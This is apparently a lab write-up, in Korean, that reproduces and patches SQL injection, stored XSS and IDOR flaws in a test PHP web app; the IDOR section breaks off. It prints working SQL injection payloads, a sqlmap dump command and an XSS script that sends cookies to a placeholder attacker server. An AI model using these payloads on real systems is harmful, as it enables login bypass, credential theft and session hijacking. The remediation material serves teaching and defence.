# 앱 보안 취약점 재현·검증 정리

애플리케이션 취약점은 서버가 `192.168.10.0/24`에 있던 환경에서 재현했습니다. 이후 Cisco ASAv로 Outside·DMZ·Inside를 분리한 구성은 [네트워크 보안 검증 증빙](../네트워크보안/네트워크보안_검증증빙.md)에 정리했습니다.

---

## 1. SQL Injection (SQL 삽입 공격)

### 개요
사용자 입력값을 검증 없이 SQL 쿼리에 그대로 이어붙여서, 로그인 우회·UNION 기반 데이터 탈취·임의 데이터 삭제가 가능했던 취약점입니다.

### 재현 과정
- 로그인 우회: `admin' -- ` 를 아이디에 입력 → 비밀번호 검증 구문이 주석 처리되어 인증 없이 로그인
- UNION 기반 탈취: 게시판 검색창에 `zzzz' UNION SELECT id, username, password, 1, role FROM users --` 입력 → 회원 아이디·비밀번호가 게시글 목록처럼 노출
- 계정 삭제 파라미터 조작 · `delete_account.php?id=0 OR id=36`을 사용해 시험 계정 1개를 삭제했습니다.
- 자동화 도구 재현: `board/view.php`의 POST `id` 파라미터를 sqlmap으로 공격 → time-based blind, UNION query(12 columns) 두 기법 모두 injectable로 판정, `users` 테이블 전체 덤프 성공

### 원인
```php
// account/login_process.php (취약 코드)
$sql = "
    SELECT * FROM users
    WHERE username = '$username' AND password = '$password'
";
$result = $conn->query($sql);
```
사용자 입력을 SQL 문자열에 직접 삽입하는 코드에서 따옴표와 SQL 구문을 포함한 값이 쿼리 구조를 변경할 수 있었습니다.

### 보완 방법
```php
// account/login_process.php (보완 코드)
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$user = $stmt->get_result()->fetch_assoc();
```
게시글 조회·편집·삭제와 계정 편집·삭제·조회·등록 등 사용자 입력을 받는 경로에 Prepared Statement를 적용했습니다.

### 결과 캡처: 로그인 우회 (보완 전)
로그인 폼 ID란에 `admin' --`를 입력하면 비밀번호 검증 구문이 주석 처리되어, 비밀번호를 몰라도 admin 계정으로 바로 로그인됩니다.


*로그인 ID란에 `admin' --` 입력 (비밀번호는 아무 값)*


*비밀번호 검증 없이 admin 권한으로 로그인된 화면*

### 결과 캡처 (보완 전, 공격 성공)
보완 적용 전 소스코드에서, `board/view.php`의 POST `id` 파라미터를 sqlmap(`--level=5 --risk=3`)으로 공격한 결과 MySQL time-based blind와 UNION query(12 columns) 두 기법 모두 injectable로 판정되었고, `users` 테이블 전체가 그대로 덤프되었습니다.


*`board/view.php`의 POST `id` 파라미터 대상 스캔: time-based blind, UNION query(12 columns) 두 기법 모두 injectable로 판정*


*DB 콘솔에서 조회한 `users` 테이블 37행입니다. 이름·생성일시·재설정 관련 열은 마스킹했습니다.*

### 결과 캡처: UNION/time-based 공격 (보완 전, `board/free.php`)
게시판 검색창(`board/free.php`)의 POST `keyword` 파라미터도 동일하게 취약했습니다. 수동으로 넣은 UNION 페이로드는 쿼리 뒤에 고정으로 붙는 `ORDER BY posts.id DESC`가 UNION 결과셋에서는 유효하지 않은 컬럼 참조가 되어 매번 구문 오류로 막혔지만, sqlmap은 자동으로 time-based blind 기법을 찾아내 공격에 성공했습니다.


*`board/free.php`의 POST `keyword` 파라미터 대상 탐지 스캔 시작*


*time-based blind(`AND (SELECT ... SLEEP(5))`) injectable로 판정, 백엔드 DBMS·OS·웹서버 버전까지 노출*


*`-D training_web -T users -C username,password,role --dump`로 덤프: admin/admin321부터 순차적으로 값 추출*


*users 테이블 role·username·password 전체 추출 완료*

### 결과 캡처 (보완 전, 계정 삭제 파라미터 조작)
`delete_account.php`가 URL의 `id` 값을 삭제 쿼리에 직접 넣었습니다. `id=0 OR id=36`으로 범위를 한정해 시험 계정 1개를 삭제했습니다.


*공격 전, id=36(check 계정)이 정상적으로 존재 (36 rows)*


*`delete_account.php?id=0 OR id=36`으로 접속, 입력값이 검증 없이 그대로 반영됨*


*확인 화면의 폼 action에도 조작된 id 값이 그대로 포함되어 전송 대기 상태*


*"회원 탈퇴" 실행 후, id=36 계정만 정확히 삭제됨 (35 rows), 다른 계정은 영향 없음*

### 결과 캡처: 보완 후 재검증 (`board/free.php`)
Prepared Statement 적용 후 동일한 sqlmap 명령으로 재검증한 결과, injectable 판정 없이 종료되었습니다.


*패치 후 동일 파라미터 재스캔*


*같은 `keyword` 파라미터를 다시 스캔했을 때 sqlmap은 SQL Injection 취약하다는 판정을 내리지 않았습니다.*

---

## 2. 저장형 XSS (Stored XSS)

### 개요
게시글 제목과 내용을 출력할 때 HTML 이스케이프가 빠져, 저장한 스크립트가 열람자의 브라우저에서 실행될 수 있었습니다. 세션 쿠키에 `HttpOnly`가 설정돼 있지 않으면 스크립트가 쿠키 값도 읽을 수 있습니다.

### 재현 과정
자유게시판에 아래 내용으로 글 작성:
```html
<script>
  fetch('https://공격자서버.com/steal?cookie=' + document.cookie);
</script>
```
게시글의 스크립트는 쿠키를 읽어 지정한 주소로 전송하도록 구성했습니다. 쿠키를 읽을 수 있는지는 관리자 브라우저의 콘솔에서 확인했습니다.

### 원인
```php
// board/view.php (취약 코드)
<h3><?php echo $post['title']; ?></h3>
...
<div class="board-view-content">
    <?php echo nl2br($post['content']); ?>
</div>
```
DB에서 가져온 값을 이스케이프 없이 그대로 출력.

### 보완 방법
```php
// board/view.php (보완 코드)
echo htmlspecialchars($post['title'], ENT_QUOTES, 'UTF-8');
...
echo htmlspecialchars($post['name'], ENT_QUOTES, 'UTF-8');
...
echo nl2br(htmlspecialchars($post['content'], ENT_QUOTES, 'UTF-8'));
```
```php
// includes/header.php (보완 코드)
<?php echo htmlspecialchars($_SESSION['username'], ENT_QUOTES, 'UTF-8'); ?>님
```

### 결과 캡처

*자유게시판에 쿠키 탈취 스크립트를 담은 게시글을 등록한 화면*

관리자 로그인 상태에서 브라우저 콘솔에 `document.cookie`를 입력해, 세션 쿠키가 JS로 읽히는지(= `HttpOnly` 미적용) 확인했습니다.


*관리자 로그인 상태에서 `document.cookie` 실행, 세션 쿠키 값이 그대로 반환됨 (`HttpOnly` 미적용, XSS로 탈취 가능한 상태)*


*(참고) 같은 방식으로 로그아웃 상태에서도 쿠키가 읽히는 것을 확인한 장면*


*`HttpOnly` 적용 후 동일하게 `document.cookie` 실행, 빈 문자열(`''`) 반환, JS로 쿠키를 읽을 수 없음을 확인*

---

## 3. 권한 우회 / IDOR (Broken Access Control)

### 개요
화면에서 편집 버튼을 숨겼지만 서버에서 대상 계정이나 게시글의 소유권을 검증하지 않았습니다. URL의 `id` 값을 바꿔 직접 요청하면 다른 계정이나 게시글에 접근할 수 있었습니다.

### 재현 과정
